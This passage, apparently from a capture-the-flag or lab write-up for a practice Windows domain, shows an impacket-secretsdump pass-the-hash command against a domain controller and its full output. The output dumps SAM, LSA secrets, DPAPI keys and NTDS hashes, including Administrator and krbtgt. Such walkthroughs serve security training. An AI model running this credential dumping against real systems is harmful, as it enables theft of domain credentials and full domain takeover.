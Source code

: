`impacket-secretsdump 'SOUPEDECODE.LOCAL/FileServer$@192.168.56.128' -hashes 'aad3b435b51404eeaad3b435b51404ee:e41da7e79a4c76dbd9cf79d1cb325559'`:
```
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x0c7ad5e1334e081c4dfecd5d77cc2fc6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash) ←
Administrator:500:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets ←
[*] $MACHINE.ACC 
SOUPEDECODE\DC01$:aes256-cts-hmac-sha1-96:39e89cad5d0a0429ef6529ec5e6d936e07bfade3d1cde14b89a13d105bd1a917
SOUPEDECODE\DC01$:aes128-cts-hmac-sha1-96:9fb370e30a2ab66cdd4622e2fa5533b9
SOUPEDECODE\DC01$:des-cbc-md5:643183fb5e707fd5
SOUPEDECODE\DC01$:plain_password_hex:8d2798a2344e7a8da5e48e2f78f50d0b67ccba0e8ee56aee9079d5a36c6430d8bb75ad0999749f87ddecd25d4250019e27d066e8339e4185a598674c531c1bcf76c8159b95f87d429a0b47e0cf3f601ba785be59d5e5234fd0500b867651d272ddb5dcb5905e929b0e36820387327fb1078b00829fe36bfcf2e197e41ad32960b23637607d57fce889c3c59a82d06925663e9c02ce6d76e5805ffb5da3a83977e62690cba2563cd60485dd8b86488767e5b2bf8925eea29471b1de087a4959777375fedabb0abb214b0d89288e5fe344be602415ab26f18c76c0e5f53af73e923e5d8fdddf65b010d36dd4dc23cd0468
SOUPEDECODE\DC01$:aad3b435b51404eeaad3b435b51404ee:3a0eb2df1d9339b57e16e97da9665086:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x829d1c0e3b8fdffdc9c86535eac96158d8841cf4
dpapi_userkey:0x4813ee82e68a3bf9fec7813e867b42628ccd9503
[*] NL$KM 
 0000   44 C5 ED CE F5 0E BF 0C  15 63 8B 8D 2F A3 06 8F   D........c../...
 0010   62 4D CA D9 55 20 44 41  75 55 3E 85 82 06 21 14   bM..U DAuU>...!.
 0020   8E FA A1 77 0A 9C 0D A4  9A 96 44 7C FC 89 63 91   ...w......D|..c.
 0030   69 02 53 95 1F ED 0E 77  B5 24 17 BE 6E 80 A9 91   i.S....w.$..n...
NL$KM:44c5edcef50ebf0c15638b8d2fa3068f624dcad95520444175553e85820621148efaa1770a9c0da49a96447cfc896391690253951fed0e77b52417be6e80a991
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:88d40c3a9a98889f5cbb778b0db54a2f::: ←
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:fb9d84e61e78c26063aced3bf9398ef0:::
soupedecode.local\bmark0:1103:aad3b435b51404eeaad3b435b51404ee:d72c66e955a6dc0fe5e76d205a630b15:::
soupedecode.local\otara1:1104:aad3b435b51404eeaad3b435b51404ee:ee98f16e3d56881411fbd2a67a5494c6:::
soupedecode.local\kleo2:1105:aad3b435b51404eeaad3b435b51404ee:bda63615bc51724865a0cd0b4fd9ec14:::
soupedecode.local\eyara3:1106:aad3b435b51404eeaad3b435b51404ee:68e34c259878fd6a31c85cbea32ac671:::
soupedecode.local\pquinn4:1107:aad3b435b51404eeaad3b435b51404ee:92cdedd79a2fe7cbc8c55826b0ff2d54:::

[...]
```
